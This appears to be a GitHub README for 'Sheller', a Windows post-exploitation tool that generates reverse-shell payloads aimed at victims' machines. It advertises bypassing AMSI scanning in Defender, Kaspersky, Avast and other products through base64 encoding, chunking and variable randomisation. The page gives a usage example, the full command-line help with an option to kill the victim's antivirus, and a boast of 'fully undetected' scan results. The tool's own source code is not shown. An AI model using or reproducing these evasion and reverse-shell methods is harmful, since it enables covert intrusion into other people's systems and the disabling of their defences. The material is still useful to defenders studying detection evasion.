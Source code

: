 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
To see Information:
```python 
python3 sheller.py
```
![sheller_help](https://user-images.githubusercontent.com/73026669/150557890-cdb78323-3708-4932-8355-c98f5b05a660.jpg)


# Example
``
python sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v: 
``

<a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)
```
Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: sheller2.0.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64] [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding type (default is md5)
  ```
